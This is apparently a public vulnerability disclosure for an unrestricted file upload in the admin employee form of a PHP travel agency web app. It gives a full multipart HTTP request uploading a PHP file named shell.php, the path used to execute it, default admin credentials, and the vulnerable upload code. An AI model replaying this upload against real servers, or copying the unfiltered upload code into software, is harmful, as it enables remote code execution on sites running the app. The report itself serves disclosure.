 # [Online Travel Agency System-File upload vulnerabilities-employee_insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/employee_insert.php

**[Vulnerability Location]:** /Travel/admin/employee_insert.php

**[Vulnerability Test]:**

1. First visit http://10.142.221.111/Travel/admin/employee.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `photo` with the content `<?php phpinfo(); ? >`

   ![](../../img/20230428145644.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/employee_insert.php HTTP/1.1
   Host: 10.142.221.111
   Content-Length: 1163
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.142.221.111
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylHk30v3mO57U1YBo
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.142.221.111/Travel/admin/employee.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2
   Connection: close
   
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="userfile"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_name"
   
   aaaaa
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_contact"
   
   1234567
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_email"
   
   212312@gmail.com
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_address"
   
   beijing
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_reference"
   
   asdasd
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_join"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_close"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_desc"
   
   none
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="employeeform"
   
   submit
   ------WebKitFormBoundarylHk30v3mO57U1YBo--
   ```

   The response results are shown in the figure

   ![](../../img/20230428145804.png)

4. The file is successfully uploaded and the page jumps to employee_view.php, and the path to the file just uploaded is displayed on this page.

   ![](../../img/20230428150022.png)

5. Visit http://10.142.221.111/Travel/admin/user/shell.php

   ![](../../img/20230428150135.png)

**[code analysis]:**

In /Travel/admin/employee_insert.php:

```php
<?php 
//insertion into employee table
    if(isset($_REQUEST['employeeform']))
	{
 
 $image=$_FILES['userfile']['name'];
 $file_size=$_FILES['userfile']['size'];
 $tmp_file_name=$_FILES['userfile']['tmp_name']; 

$uploaddir='user/'.$image;
$uploadimage=$uploaddir;//specify the full path for file;

if(move_uploaded_file($tmp_file_name,$uploadimage))
{
	echo"file upload successfully";
}
else
{
	echo"error occured";
         
}// end of else
```

No filtering is done on uploaded filenames

In /Travel/admin/employee_view.php

```php+HTML
<?php 
  $total=0;
  //RETRIVAL DATA FROM EMPLOYEE TABALE
  $sql="select*from employee";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{   
    $emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_jion=$row['emp_join'];
	$emp_close=$row['emp_close'];
	$total=$total+1;

?>

// In line 68
<img src="<?php echo $emp_picture;?>" width="100" height="113" />
```

And the file address is echoed on the page

